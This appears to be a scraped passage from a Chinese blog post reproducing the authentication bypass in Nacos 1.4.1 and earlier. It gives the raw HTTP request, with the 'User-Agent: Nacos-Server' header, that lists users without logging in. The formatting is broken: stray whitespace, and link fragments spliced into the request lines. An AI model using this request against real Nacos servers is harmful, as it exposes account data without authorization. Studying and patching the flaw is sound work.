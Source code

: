 Nacos &lt;= 1.4.1

##### 0x04 漏洞复现

```

    
    
     
           
      
       
       ```
      
      

       
       1.修改User-Agent的值为Nacos-Server到请求包中,
       
       添
       
       加Header头后访问
       
       http://target:8848/nacos/v1/auth/users?pageNo=1&amp;pageSize=9
       
       可以看到返回值为200,且内容中是否包含
       
       pageItems
      
      

      
      

       
       

        
        GET /nacos/v1/auth/users/?pageNo=1&amp;pageSize=9 HTTP/1.1
[](https://blog.csdn.net/m0_64910183/article/details/130144800?spm=1001.2014.3001.5502)Host: 192.168.246.138:8848
[](https://blog.csdn.net/m0_64910183/article/details/130144800?spm=1001.2014.3001.5502)User-Agent: Nacos-Server  
       
       

       
       

        
        

         
         ![](https://img-blog.csdnimg.cn/img_convert/870c929ad4b75f75daa1722406a0d643.png)
        
        

       
       

      
      

      
```